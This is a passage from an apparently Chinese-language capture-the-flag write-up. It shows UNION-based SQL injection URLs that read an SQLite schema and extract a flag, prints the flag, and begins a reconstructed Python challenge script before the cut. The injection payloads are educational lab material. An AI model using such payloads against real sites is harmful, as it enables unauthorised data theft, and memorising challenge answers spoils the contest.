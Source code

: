 然后访问`https://链接/view?conversation_id=1' UNION SELECT name, sql FROM sqlite_master WHERE type='table' AND name='messages' --`就可以获取`message`表的所有列名`CREATE TABLE messages (id text primary key, title text, contents text, shown boolean)`.

使用`LIKE`语句来搜索包含`flag`的内容：`https://链接/view?conversation_id=1' UNION SELECT title, contents FROM messages WHERE contents LIKE '%flag%' --`，在页底拿到第二个flag。

```flag
flag{enJ0y_y0uR_Sq1_&_1_would_xiaZHOU_hUI_guo_83f2f8e703}
```



## 惜字如金3.0

1. 丢给AI还原

```python
#!/usr/bin/python3                                                              
                                                                                
import atexit, base64, flask, itertools, os, re                                 
                                                                                
                                                                                
def crc(input: bytes) -> int:                                                   
    poly, poly_degree = 'AaaaaaAaaaAAaaaaAAAAaaaAAAaAaAAAAaAAAaaAaaAaaAaaA', 48 
    assert len(poly) == poly_degree + 1 and poly[0] == poly[poly_degree] == 'A' 
    flip = sum(['a', 'A'].index(poly[i + 1]) << i for i in range(poly_degree))  
    digest = (1 << poly_degree) - 1                                             
    for b in input:                                                             
        digest = digest ^ b                                                     
        for _ in range(8):                                                      
            digest = (digest >> 1) ^ (flip if digest & 1 == 1 else 0)           
    return digest ^ (1 << poly_degree) - 1                                      
                                                                                
                                                                                
def hash(input: bytes) -> bytes:                                                
    digest = crc(input)                                                         
    u2, u1, u0 = 0xCb4EcdfD0A9F, 0xa9dec1C1b7A3, 0x60c4B0aAB4Bf                 
    assert (u2, u1, u0) == (223539323800223, 186774198532003, 106397893833919)  
    digest = (digest * (digest * u2 + u1) + u0) % (1 << 48)                     
    return digest.to_bytes(48 // 8, 'little')                                   
                                                                                
                                                                                
def xzrj(input: bytes) -> bytes:                                                
    pat, repl = rb'([B-DF-HJ-NP-TV-Z])\1*(E(?![A-Z]))?', rb'\1'                 
    return re.sub(pat, repl, input, flags=re.IGNORECASE)                        
                                                                                
                                                                                
paths: list[bytes] = []                                                         
                                                                                
xzrj_bytes: bytes = bytes()                                                     
                                                                                
with open(__file__, 'rb') as f:                                                 
    for row in f.read().splitlines():                                           
        row = (row.rstrip() + b' ' * 80)[:80]                                   
        path = base64.b85encode(hash(row)) + b'.txt'                            
        with open(path, 'wb') as pf:                                            
            pf.write(row)                                                       
            paths.append(path)                                                  
            xzrj_bytes += xzrj(row) + b'\r\n'                                   
                                                                                
    def clean():                                                                
        for path in paths:                                                      
            try:                                                                
                os.remove(path)                                                 
            except FileNotFoundError:                                           
```